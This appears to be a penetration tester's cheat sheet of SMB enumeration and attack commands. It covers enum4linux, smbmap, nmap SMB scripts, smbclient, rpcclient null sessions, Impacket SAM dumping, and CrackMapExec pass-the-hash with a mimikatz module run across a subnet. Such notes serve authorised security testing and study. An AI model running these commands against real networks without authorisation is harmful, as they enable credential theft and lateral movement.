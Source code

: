 
## Enumerate SMB:

Enum4linux:

- Enum4linux -a 172.21.0.0

SMBmap:

- smbmap -H 172.21.0.0 -d [domain] -u [user] -p [password]
- smbmap -H 172.21.0.0 -d [domain] -u "" -p ""

Nmap: 

- nmap --script smb-* -p 139,445, 172.21.0.0
- nmap --script smb-enum-* -p 139,445, 172.21.0.0

/usr/share/nmap/scripts/smb-brute.nse
/usr/share/nmap/scripts/smb-enum-domains.nse
/usr/share/nmap/scripts/smb-enum-groups.nse
/usr/share/nmap/scripts/smb-enum-processes.nse
/usr/share/nmap/scripts/smb-enum-services.nse
/usr/share/nmap/scripts/smb-enum-sessions.nse
/usr/share/nmap/scripts/smb-enum-shares.nse
/usr/share/nmap/scripts/smb-enum-users.nse
/usr/share/nmap/scripts/smb-flood.nse
/usr/share/nmap/scripts/smb-ls.nse
/usr/share/nmap/scripts/smb-mbenum.nse
/usr/share/nmap/scripts/smb-os-discovery.nse
/usr/share/nmap/scripts/smb-print-text.nse
/usr/share/nmap/scripts/smb-protocols.nse
/usr/share/nmap/scripts/smb-psexec.nse
/usr/share/nmap/scripts/smb-security-mode.nse
/usr/share/nmap/scripts/smb-server-stats.nse
/usr/share/nmap/scripts/smb-system-info.nse


SMBClient: 

- smbclient -L 172.21.0.0
- smbclient //172.21.0.0/tmp

Impacket SmbClient: 

- /usr/share/doc/python3-impacket/examples/smbclient.py username@172.21.0.0

RPCclient: 

- rpcclient -U "" -N 172.21.0.0 enumdomusers

Impacket: 

- python3 samdump.py SMB 172.21.0.0

CrackMapExec: 

- crackmapexec smb -L 
- crackmapexec 172.21.0.0 -u Administrator -H [hash] --local-auth
- crackmapexec 172.21.0.0 -u Administrator -H [hash] --share
- crackmapexec smb 172.21.0.0/24 -u user -p 'Password' --local-auth -M mimikatz

 

